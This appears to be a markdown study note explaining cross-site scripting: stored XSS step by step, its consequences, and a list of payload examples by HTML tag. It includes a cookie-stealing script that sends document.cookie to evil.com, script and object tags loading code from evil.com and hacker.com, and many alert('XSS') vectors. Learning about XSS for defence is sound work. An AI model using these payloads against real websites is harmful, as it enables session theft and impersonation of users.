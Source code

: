 # Cross Site Scripting
* Attacker inject malicious script (malicious payload) to target Web App
* User download and execute the malicious script.

## Overview
* web app use unvalidated or unencoded user input within the output it generates.
* Using the vulnerable website as a vehicle to deliver a malicious script to the victim’s browser.

* Vulnerable Website.
  * Use e.target.value from input directly without any validation and encode.


## How: step by step
1. Hacker inject malicious payload into vulnerable website (PRO360). Or hacker can create a malicious website with malicious payload then lure victim to visit the website.
2. Hacker put code string in input.

```js
print "<html>"
print "<h1>Most recent comment</h1>"
print database.latestComment
print "</html>"
```

3. say the database.latestComment just printout the comment that store from the input of comment page
4. Hacker tpye <script>doSomethingEvil();</script> in the input page and store it.
5. Next time user load webpage will be like following

```js
<html>
<h1>Most recent comment</h1>
<script>doSomethingEvil();</script>
</html>

```

## Consequences
1. Script can access to all objects of the page (documents)
 * Access cookies to get sessionId (token), JWT,  
 * Impersonate user
2. Make arbitrary modifications of browser's DOM
3. use XMLHttpRequest to send HTTP requests with arbitrary content to arbitrary destinations.
4. JavaScript in modern browsers can leverage HTML5 APIs such as accessing a user’s geolocation, webcam, microphone and even the specific files from the user’s file system. While most of these APIs require user opt-in, XSS in conjunction with some clever social engineering can bring an attacker a long way.

## Real Case
* Attacker's Goal: Impersonate user, steal it's cookie and send it to attacker's own sever.

```js

// malicious code
<script>
   window.location=“http://evil.com/?cookie=” + document.cookie
</script>

```

<img src="./assets/how-xss-works.png">

1. The attacker injects a payload in the website’s database by submitting a vulnerable form with some malicious JavaScript
2. The victim requests the web page from the website
3. The website serves the victim’s browser the page with the attacker’s payload as part of the HTML body.
4. The victim’s browser will execute the malicious script inside the HTML body. In this case it would send the victim’s cookie to the attacker’s server. The attacker now simply needs to extract the victim’s cookie when the HTTP request arrives to the server, after which the attacker can use the victim’s stolen cookie for impersonation.

## XSS Payload Examples
1. script
```js
<!-- External script -->
<script src=http://evil.com/xss.js></script>
<!-- Embedded script -->
<script> alert("XSS"); </script>
```

2. body

```js
<!-- onload attribute -->
<body onload=alert("XSS")>
<!-- background attribute -->
<body background="javascript:alert("XSS")">
```

3. img
```js
<!-- <img> tag XSS -->
<img src="javascript:alert("XSS");">
<!--  tag XSS using lesser-known attributes -->
<img dynsrc="javascript:alert('XSS')">
<img lowsrc="javascript:alert('XSS')">
```

4. input

```js
<!-- <input> tag XSS -->
<input type="image" src="javascript:alert('XSS');">

```

5. link
```js
<!-- <link> tag XSS -->
<link rel="stylesheet" href="javascript:alert('XSS');">

```

6. table

```js
<!-- <table> tag XSS -->
<table background="javascript:alert('XSS')">
<!-- <td> tag XSS -->
<td background="javascript:alert('XSS')">
```

7. div
```js
<!-- <div> tag XSS -->
<div style="background-image: url(javascript:alert('XSS'))">
<!-- <div> tag XSS -->
<div style="width: expression(alert('XSS'));">
```

8. object
```js
<!-- <object> tag XSS -->
<object type="text/x-scriptlet" data="http://hacker.com/xss.html">
```

9. iframe
* Iframe can not acces the host page's dom due to the browser’s Content Security Policy (CSP).
* IFrames are still very effective means of pulling off phising attacks ????
```js
<!-- <iframe> tag XSS -->
<iframe src=”http://evil.com/xss.html”>

```

## Ref
[Acunetix - XSS](https://www.acunetix.com/websitesecurity/cross-site-scripting/)
